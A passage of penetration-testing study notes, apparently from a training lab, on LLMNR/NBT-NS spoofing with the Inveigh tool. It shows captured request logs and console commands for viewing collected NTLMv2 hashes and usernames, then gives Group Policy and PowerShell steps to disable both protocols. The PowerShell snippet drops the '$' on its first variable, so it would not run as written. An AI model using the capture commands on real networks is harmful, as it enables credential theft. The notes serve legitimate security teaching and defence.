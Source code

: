 ```powershell
[+] [20:03:31] LLMNR(A) request [academy-ea-web0] from 172.16.5.125 [response sent]
[-] [20:03:31] LLMNR(AAAA) request [academy-ea-web0] from 172.16.5.125 [type ignored]
[+] [20:03:31] LLMNR(A) request [academy-ea-web0] from fe80::f098:4f63:8384:d1d0%8 [response sent]

```


- `[+]`  default option and enabled by default
- `[ ]`  disabled options 

**Console access:** Press ESC to enter/exit interactive console. The console gives us access to captured credentials/hashes, allows us to stop Inveigh, and more.

```powershell-session
# List commands
> HELP

# view unique captured hashes
>  GET NTLMV2UNIQUE

#  see which usernames we have collected.
GET NTLMV2USERNAMES
```


Mitigations:  To ensure that these spoofing attacks are not possible, we can disable LLMNR and NBT-NS.

- We can disable LLMNR in Group Policy by going to Computer Configuration --> Administrative Templates --> Network --> DNS Client and enabling "Turn OFF Multicast Name Resolution."
- NBT-NS cannot be disabled via Group Policy but must be disabled locally on each host. We can do this by opening `Network and Sharing Center` under `Control Panel`, clicking on `Change adapter settings`, right-clicking on the adapter to view its properties, selecting `Internet Protocol Version 4 (TCP/IPv4)`, and clicking the `Properties` button, then clicking on `Advanced` and selecting the `WINS` tab and finally selecting `Disable NetBIOS over TCP/IP`.
- NBT-NS can also be disabled

	- by creating a PowerShell script under Computer Configuration --> Windows Settings --> Script (Startup/Shutdown) --> Startup with something like the following: 

```powershell
regkey = "HKLM:SYSTEM\CurrentControlSet\services\NetBT\Parameters\Interfaces"
Get-ChildItem $regkey |foreach { Set-ItemProperty -Path "$regkey\$($_.pschildname)" -Name NetbiosOptions -Value 2 -Verbose}
```

	- Double click on Startup, choose the PowerShell Scripts tab, and select "For this GPO, run scripts in the following order" to Run Windows PowerShell scripts first, and then click on Add and choose the script. 
	- Reboot the target system or restart the network adapter.


>To push this out to all hosts in a domain, we could create a GPO using `Group Policy Management` on the Domain Controller and host the script on the SYSVOL share in the scripts folder and then call it via its UNC path such as: `\\inlanefreight.local\SYSVOL\INLANEFREIGHT.LOCAL\scripts`
>
>Once the GPO is applied to specific OUs and those hosts are restarted, the script will run at the next reboot and disable NBT-NS, provided that the script still exists on the SYSVOL share and is accessible by the host over the network.
